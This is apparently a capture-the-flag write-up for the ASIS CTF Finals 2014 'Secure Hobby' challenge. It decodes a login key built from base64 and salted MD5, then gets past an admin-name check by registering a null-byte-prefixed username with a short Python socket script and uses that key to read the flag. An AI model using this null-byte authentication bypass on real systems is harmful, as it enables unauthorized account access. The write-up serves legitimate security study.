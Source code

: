 ```yaml
---
layout: post
title: "ASIS CTF Finals Secure Hobby"
date: 2014-10-13 23:51:25 -0400
author: [barrebas]
comments: true
categories: [asis]
---
```


### Solved by barrebas

For Secure Hobby, a 250 point challenge, we where given a file and a place to connect to. The archive contained a binary, which looked okay enough to run. It opened a port on localhost. Upon connecting using ```nc```, the program first crashes because it can't find ```flag``` and ```namak```. After creating those files and connecting again, we are presented with the following:

```bash
$ nc localhost 35565
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
1
Enter username: test
Your key for login is: 6447567a64413d3d098f6bcd4621d373cade4e832627b4f6
```

Hmm. The second function verifies a login and the third displays a secret. Trying to register the user 'admin' resulted in an error. Still, it's fair to assume we need to get the secret of the admin user. Let's break this key down.

```bash
$ echo -ne 'test' |md5sum
098f6bcd4621d373cade4e832627b4f6  -
```

This looks like the last part of the login. What about the start? It seems to end with \x3d, or ASCII ```=```. Screams base64!

```bash
$ xxd -p -r
6447567a64413d3d
dGVzdA==
$ echo -ne 'dGVzdA==' |base64 -d
test
```

So putting it all together again:


```bash
$ echo -ne 'admin' |base64
YWRtaW4=
$ echo -ne 'admin' |md5sum
21232f297a57a5a743894a0e4a801fc3  -
xxd -p
YWRtaW4=
595752746157343d0a
```

Looks like ```595752746157343d21232f297a57a5a743894a0e4a801fc3``` is the login we need!

Alas, this doesn’t work. On the remote box, registering ```test``` returns:


```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
1
Enter username: test
Your key for login is: 6447567a64413d3dd0211e3e26985465726312d056f9339f
```

It has to do with the ```namak``` file. Namak is Persian for salt.

```bash
$ echo ‘0’ > namak
```

Now, registering test on the localhost server returns ```Your key for login is: 6447567a64413d3d1c13f2701648e0b0d46d8a2a5a131a53```.

Furthermore, it looks like the salt is prepended to before hashing. We grabbed md5(salt) using a small Python script:


```python
#!/usr/bin/python

from socket import *
import time, re, struct

s = socket(AF_INET, SOCK_STREAM)
#s.connect(('localhost', 35565))
s.connect(('asis-ctf.ir', 12439))

print s.recv(256)

s.send('1\n')
print s.recv(256)

s.send('\n')

print s.recv(200)
print s.recv(200)
```

The output showed:

```bash
Enter username:
Your key for login is:
5624717e9a5fd673f17f5678c6303ffe
```

So the md5 of the salt would be ```5624717e9a5fd673f17f5678c6303ffe```. I enlisted the help of NullMode to crack this hash, but to no avail.

Instead of cracking this hash (seems inpossible), we decided to focus on the string comparison. We cannot register a username containing ```admin```, but perhaps we can circumvent this checking system somehow. First, I tried:


```
admin                                              #
```

But this led to the same error message. Apparently, the username is not truncated. Instead, we assumed the check-string-for-admin uses normal string routines. These stop when they encounter a null-byte. Hash-functions on the other hand, do not. Let's register a user ```\x00admin``` using Python:


```python
#!/usr/bin/python

from socket import *
import time, re, struct

s = socket(AF_INET, SOCK_STREAM)
#s.connect(('localhost', 35565))
s.connect(('asis-ctf.ir', 12439))

print s.recv(256)

s.send('1\n')
print s.recv(256)

s.send('\x00admin\n')

print s.recv(200)
print s.recv(200)
```

This little gem returned ```4147466b62576c7503812bbd45e23c059a0eab18e936b7ed```. Let's try it out!


```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
2
Enter key: 4147466b62576c7503812bbd45e23c059a0eab18e936b7ed
OK
User admin authenticated
```

Holy crap, it worked! Let's grab that secret! Fingers crossed:


```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
3
Enter key: 4147466b62576c7503812bbd45e23c059a0eab18e936b7ed
The flag is: ASIS_65cc76f02093977bfd7629086e813666
```

BOOM! We just landed another flag :) This one was actually fun to solve!
